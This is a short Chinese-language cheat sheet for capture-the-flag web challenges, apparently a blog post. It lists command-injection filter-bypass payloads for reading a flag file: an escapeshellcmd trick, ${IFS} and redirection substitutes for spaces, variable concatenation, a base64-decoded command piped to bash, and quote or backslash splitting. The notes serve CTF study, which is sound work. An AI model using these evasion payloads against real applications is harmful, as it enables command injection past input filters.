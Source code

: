 ```yaml
---
title: CTF中命令执行绕过方法
categories:
  - web
  
abbrlink: 2701
date: 2023.11.23
tags: 
   - php

---
```


# **命令执行绕过**

## escapeshellcmd函数绕过方法：

1.执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。

payload=

```
post=../ %1a whoami
```

2.宽字节注入

## 空格过滤：

1.${IFS}

payload1=

```
cat${IFS}flag
```

payload2=

```
cat${IFS}$9flag
```

payload3=

```
cat$IFS$9flag
```

2.重定向符<>

payload1=

```
cat<>flag
```

payload2=

```
cat<flag
```

# 黑名单绕过

1.拼接

payload=

```
a=c;b=at;c=flag;$a$b $c
```

2.利用已存在的资源

从已有的文件或者环境变量中获得相应的字符。

3.base64编码

```
`echo "Y2F0IGZsYWc="|base64 -d`
```

```
echo "Y2F0IGZsYWc="|base64 -d|bash
```

4.单引号、双引号

payload1=

```
c""at flag
```

payload2=

```
c""at fl""ag
```

payload3=

```
c""at fl''ag
```

5.反斜线 \

payload=

```
c\at fl\ag
```

6.LINUX下一些已有字符

- ${PS2} 对应字符 '>'
- ${PS4} 对应字符 '+'
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串



